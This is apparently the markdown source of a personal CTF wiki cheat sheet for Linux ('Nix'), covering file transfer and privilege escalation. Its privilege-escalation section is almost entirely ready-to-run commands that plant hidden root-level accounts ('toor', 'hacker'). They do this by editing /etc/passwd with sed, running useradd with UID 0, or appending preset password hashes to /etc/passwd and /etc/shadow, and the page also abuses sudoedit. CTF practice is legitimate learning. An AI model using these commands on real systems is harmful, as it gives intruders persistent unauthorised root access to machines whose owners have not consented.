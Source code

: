 ```yaml
---
layout: article
title: Nix
permalink: /wikis/ctf/nix
aside:
    toc: true
sidebar:
    nav: wikis
---
```


## File Transfer

Grab all files from directory
```bash
wget -r -nH --no-parent http://<host-ip>/<dir>/ --reject="index.html*" -q
```

Transfer binary by base64 encoding (-w0 to omit line-wrapping)<br>
On remote machine:
```bash
base64 -w0 <file>
```
Copy and paste contents into a new file on local machine. <br>
Then, on local machine:
```bash
base64 -d <file> > <newfile>
```


## Privilege Escalation

Exploitable binaries<br>
[https://gtfobins.github.io/](https://gtfobins.github.io/)
<br>
<br>
Adding Users
```bash
adduser --no-create-home --shell /bin/bash toor 
sed -i 's/toor:x:1001:1001/toor:x:0:0/' /etc/passwd 

useradd -m hacker -p 23ZQ03Tm4ejt6 -o -u 0 -g 0 
```
or 
  
```bash
echo "toor:x:0:0::/tmp:/bin/sh" >> /etc/passwd 
echo "toor:23MdZN/rsVdLg:16673:0:99999:7:::" >> /etc/shadow 
```
<br>
<br>
If only <b>/etc/passwd</b> is writable 
```bash
echo "toor:23MdZN/rsVdLg:0:0:,,,:/root:/bin/bash" >> /etc/passwd 
```

Create Hashes for <b>/etc/shadow</b>: 
```bash
openssl passwd -salt 234 <password> 
```
<br>
<br>
Exploiting <b>sudoedit</b>-able <b>/etc/passwd</b><br>
Create a user toor:toor 
```bash
toor:23MdZN/rsVdLg:0:0:,,,:/root:/bin/bash
```
